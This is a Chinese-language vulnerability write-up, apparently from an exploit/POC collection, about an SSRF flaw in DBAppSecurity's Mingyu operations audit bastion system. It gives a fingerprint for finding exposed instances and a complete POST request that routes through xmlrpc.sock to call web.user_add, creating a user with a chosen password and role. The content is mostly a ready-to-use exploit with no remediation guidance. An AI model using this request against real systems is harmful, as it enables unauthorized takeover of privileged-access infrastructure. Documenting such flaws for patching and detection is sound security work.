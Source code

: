 # 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

## 漏洞描述

安恒 明御运维审计与风险控制系统 xmlrpc.sock 接口存在SSRF漏洞，通过漏洞可以添加任意用户控制堡垒机

## 漏洞影响

<a-checkbox checked>安恒 明御运维审计与风险控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"明御运维审计与风险控制系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1684157005274-29040e67-0fcc-4cf9-a841-dfecf15337f5.png)

验证POC

```c
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4bbf6c85e541bb980ad4e0fbee2f57bb15bafe20a7028af9a0b8901cf80fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![img](../../../.vuepress/public/img/1691632648327-7506c46c-805d-47ae-a95a-a317645b5c6e.png)